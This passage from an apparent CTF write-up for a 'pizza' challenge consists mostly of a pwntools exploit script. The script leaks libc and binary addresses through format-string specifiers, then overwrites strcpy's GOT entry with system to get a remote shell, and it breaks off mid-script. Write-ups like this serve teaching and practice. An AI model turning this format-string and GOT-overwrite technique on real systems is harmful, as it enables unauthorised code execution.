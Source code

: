 {% highlight python %}
offset = 6
payload = fmtstr_payload(offset, {strcpyGot:systemSym})
#print(len(payload))
print(payload)
assert(len(payload) < 100)
custom(payload)
{% endhighlight %}

We can send the payload and get a shell

### Exploit Script

{% highlight python %}
#!/usr/bin/python
from pwn import *
import warnings

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./pizza_patched')
libc = ELF('./libc6_2.36-9+deb12u4_amd64.so')
#libc = exe.libc

host = "chall.lac.tf"
port = 31134

gdb_script = '''
c
'''

def custom(data):
	p.sendlineafter(b"> ", "12")
	p.sendlineafter(b"topping: ", data)


#p = exe.process()
p = remote(host,port)
#p = gdb.debug('./pizza_patched', gdbscript = gdb_script)

format1 = "AAAA.%5$p"
format2 = ".%49$p"

custom(format1)
custom(format2)
custom("aaaa")


p.recvline()
top1 = p.recvline().strip().decode().split(".")
top2 = p.recvline().strip().decode().split(".")
top3 = p.recvline().strip()

leak = int(top1[-1], 16)
log.info(f"libc leak : {hex(leak)}")
libc.address = leak - (0x7f2a1da6ba80-0x7f2a1d899000)
log.info(f"libc base : {hex(libc.address)}")

leak = int(top2[-1], 16)
log.info(f"elf leak : {hex(leak)}")
exe.address = leak - (0x56113f613189 - 0x0056113f612000)
log.info(f"elf base : {hex(exe.address)}")

strcpyGot = exe.got["strcpy"]
systemSym = libc.sym["system"]
log.info(f"strcpy got : {hex(strcpyGot)}")
log.info(f"system : {hex(systemSym)}")

p.sendlineafter(b"(y/n): ", "y")

offset = 6